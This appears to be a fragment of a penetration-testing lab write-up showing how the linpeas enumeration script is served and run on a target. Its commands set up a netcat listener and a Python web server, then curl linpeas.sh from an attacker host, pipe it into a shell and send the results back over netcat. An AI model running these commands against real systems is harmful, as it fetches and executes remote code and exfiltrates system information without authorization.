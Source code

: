 setting up netcat listener
```bash
nc -lvnp 9002 | tee linpeas.out
```
setting up python3 http server
```bash
python3 -m http.server 8000
```
curl'ing linpeas.sh, opening a shell and connecting back to the kali host
```bash
curl 10.10.14.39:8000/linpeas.sh | sh | nc 10.10.14.39 9002
```

![[Pasted image 20240613125000.png]]